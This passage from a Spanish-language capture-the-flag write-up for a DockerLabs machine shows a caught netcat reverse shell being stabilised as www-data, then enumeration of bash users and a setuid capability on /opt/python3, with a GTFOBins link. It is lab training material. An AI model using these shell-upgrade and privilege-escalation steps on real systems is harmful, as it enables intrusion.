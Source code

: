 ```terminal
	...connect to [192.168.0.171] from (UNKNOWN) [192.168.0.171] 39192

script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@kali:/var/www/norc$ ^Z
zsh: suspended  nc -lnvp 1234

/home/kali/Documents/dockerlabs/norc:-$ stty raw -echo;fg
[1]  + continued  nc -lnvp 1234
                               reset
reset: unknown terminal type unknown
Terminal type? xterm

www-data@kali:/var/www/norc$ export TERM=xterm
www-data@kali:/var/www/norc$ export SHELL=bash

/home/kali/Documents/dockerlabs/norc:-$ stty size
42 176

www-data@kali:/var/www/norc$ stty rows 42 columns 176

www-data@kali:/var/www/norc$ whoami
www-data
```

---
## Lateral Movement

```terminal
www-data@kali:/$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
kvzlx:x:1000:1000::/home/kvzlx:/bin/bash
```

Verifiqué las capacidades en binarios del sistema para encontrar posibles caminos de escalada.

```terminal
www-data@kali:/$ getcap -r / 2>/dev/null
/opt/python3 cap_setuid=ep
```

El binario '/opt/python3' tiene la capacidad 'cap_setuid=ep', lo que permite cambiar el ID de usuario. Sin embargo, al intentar usarlo, el sistema me negó el permiso.

<https://gtfobins.github.io/gtfobins/python/#capabilities>

![](/assets/img/dockerlabs-writeup-norc/norc1_24.png)
